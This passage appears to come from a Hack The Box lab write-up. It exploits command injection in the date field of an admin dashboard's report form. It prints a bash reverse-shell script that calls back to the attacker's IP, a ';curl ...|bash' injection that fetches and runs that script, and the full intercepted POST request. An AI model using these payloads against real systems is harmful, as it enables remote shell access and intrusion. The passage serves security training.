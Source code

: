### Command Injection

On the dashboard we only had the option to generate a report based on a specific date.

![](images/2024-03-23_15-20_admin_dashboard.png)

We prepared our `staged payload` and intercepted the request with `Burp Suite` to inject our command.

#### Staged Payload

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ cat x
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.141/9001 0>&1'
```

#### Command Injection Payload

```c
;curl 10.10.14.141/x|bash
```

#### Execution

```c
POST /dashboard HTTP/1.1
Host: 10.129.237.154:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.237.154:5000
DNT: 1
Connection: close
Referer: http://10.129.237.154:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

date=;curl 10.10.14.141/x|bash
```

